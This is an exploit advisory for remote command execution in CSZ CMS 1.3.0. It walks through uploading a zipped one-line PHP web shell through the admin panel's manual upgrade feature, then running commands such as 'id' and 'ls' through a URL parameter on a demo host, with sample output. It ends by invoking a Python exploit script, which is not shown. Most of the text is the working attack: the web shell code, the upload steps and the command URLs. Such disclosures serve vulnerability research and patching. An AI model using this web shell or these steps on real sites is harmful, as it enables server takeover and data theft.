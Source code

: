 ## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.

4. Execute commands remotely:
   - Test the execution with the `id` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
     ```
     Expected output:
     ```
     uid=1000(soft) gid=1000(soft) groups=1000(soft)
     ```
   - List directory contents using the `ls` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls
     ```
     Expected output:
     ```
     CHANGELOG
     CONTRIBUTING.md
     LICENSE.md
     README.md
     SECURITY.md
     a.php
     assets
     cache.config.inc.php
     config.inc.php
     config_example.inc.php
     corecss.css
     corejs.js
     cszcms
     devtoolsbar.config.inc.php
     env.config.inc.php
     htaccess.config.inc.php
     index.php
     install
     memcached.config.inc.php
     nginx_example.com.conf
     photo
     poc.php
     proxy.inc.php
     redis.config.inc.php
     system
     templates
     test.php
     ```
## Exploit:

```python3 CSZ_CMS.py https://demos1.softaculous.com/CSZ_CMSladcjtgqrm/ id```
